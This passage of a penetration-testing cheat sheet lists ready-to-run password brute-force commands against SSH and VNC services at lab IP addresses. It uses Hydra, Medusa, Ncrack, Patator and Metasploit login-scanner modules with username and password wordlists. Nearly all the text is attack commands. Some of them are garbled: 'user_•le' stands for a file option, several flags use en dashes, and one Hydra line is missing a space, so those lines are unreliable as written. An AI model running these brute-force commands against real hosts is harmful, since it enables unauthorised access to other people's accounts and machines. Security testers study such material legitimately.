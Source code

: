 > **hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.103 ssh**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVgaWsic0w7QjhbiciapOUHjJCIVr5zFLkwesKRMRnjd56VxGVqicDT7EzvA/640?wx_fmt=png)

#### Medusa

> **medusa -h 192.168.1.103 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M ssh**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVicNeegt1AXdRNEkYGBaHCV7sgMv4uyqM1aIXCXia9aAic7jDU4ia39MR5g/640?wx_fmt=png)

#### Ncrack

> **ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.103:22**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVibynLgD9BQEibfYKXMlKVHg3xmictJgeeL4O2dDwT3NCV7RgF1C2PjfOA/640?wx_fmt=png)

#### Patator

> **patator ssh_login host=192.168.1.103 user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVsznEpy717RayoVcRicDtJzGiacmc1Yo4QJLmPy2sjkGia9vyibU5GZ6W9Q/640?wx_fmt=png)

#### Metasploit

```
use auxiliary/scanner/ssh/ssh_login
msf exploit (ssh_login)>set rhosts 192.168.1.103 (IP of Remote Host)
msf exploit (ssh_login)>set user_•le /root/Desktop/user.txt
msf exploit (ssh_login)>set pass_•le /root/Desktop/pass.txt
msf exploit (ssh_login)>exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVnhiaKKzMazRicS333I8M1gWroNvyJSaMAicawmgCEAHvMFiah8orTVrhdw/640?wx_fmt=png)

### VNC

#### Hydra

> **Hydra-s 5900 –P /root/Desktop/pass.txt –t 16 192.168.0.6 vnc**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVauuFZPZ0d16qMIbCgqX0sDymTictm2HPLsnJWEhRO1HPkGKic6ibbPianQ/640?wx_fmt=png)

#### Metasploit

```
use auxiliary/scanner/vnc/vnc_login
msf auxiliary(scanner/vnc/vnc_login) > set rhosts 192.168.0.6
msf auxiliary(scanner/vnc/vnc_login) > set pass_•le /root/Desktop/pass.txt
msf auxiliary(scanner/vnc/vnc_login) > run
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVOndwb4GCjNDvJcsKJakoQ2czuEI3kQSnMiauTVUt15iaER7GPxLibdNcA/640?wx_fmt=png)
